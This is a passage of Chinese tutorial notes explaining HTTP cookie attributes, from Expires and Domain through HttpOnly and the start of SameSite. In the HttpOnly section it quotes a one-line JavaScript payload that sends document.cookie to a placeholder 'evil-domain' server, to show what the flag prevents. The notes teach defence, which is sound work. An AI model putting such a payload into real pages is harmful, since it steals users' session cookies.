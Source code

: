   可以是当前网站自己跟踪，也可以是第三方跟踪，详见 `cookie安全性`

### 四、cookie属性

#### 4.1 Expires，Max-Age

1. Expires 属性指定一个具体的到期时间，到了指定时间以后，浏览器就不再保留这个cookie，浏览器根据本地时间，决定 cookie 是否过期，由于本地时间是不精确的，所以没有办法保证 cookie 一定会在服务器指定的时间过期。

2. Max-Age 属性指定从现在开始 cookie 存在的 秒数，比如60 * 60 * 24 * 365（即一年）。过了这个时间以后，浏览器就不再保留这个 cookie。

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```

#### 4.2 Domain

1. Domain 属性指定浏览器发出 HTTP请求时，哪些域名要附带这个 cookie

   如果没有指定该属性，浏览器会默认将其设为当前域名，这时子域名将不会附带这个 cookie 。
   
   如果指定了 domain 属性，那么子域名也会附带这个 cookie 。
   
   如果服务器指定的域名不属于服务器当前域名或者其父域名，浏览器会拒绝这个 cookie 。

#### 4.3 Path

1. Path属性指定浏览器发出HTTP请求时，哪些路径要附带这个cookie。

   只要浏览器发现，Path属性值是HTTP请求路径的开头一部分，就会在头信息里面带上这个 cookie 。

#### 4.4 Secure

1. Secure属性指定浏览器只有在加密协议HTTPS下，才能将这个cookie发送到服务器。

   该属性只是一个开关，不需要指定值

#### 4.5 HttpOnly

1. HttpOnly属性指定该cookie无法通过JavaScript脚本拿到，主要是document.cookie、XMLHttpRequest对象和Request API。这样就防止了该cookie被脚本读到，只有浏览器发出HTTP请求时，才会带上该cookie。

```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

上面是跨站点载入的一个恶意脚本的代码，能够将当前网页的cookie发往第三方服务器。如果设置了一个cookie的HttpOnly属性，上面代码就不会读到该cookie。

#### 4.6 SameSite

1. SameSite 的作用

   Cookie 的 SameSite 属性就是用来限制第三方 Cookie，从而减少安全风险的。

   比如：CSRF攻击、用户追踪...详见 `cookie安全性`

   >Cookie 的 domain (your-bank.com) 与当前访问的网站 (malicious.com) 不一样，这种 cookie 就称为第三方 cookie。

2. SameSite 的值

   Cookie 的SameSite属性可以设置三个值：Strict、Lax、None
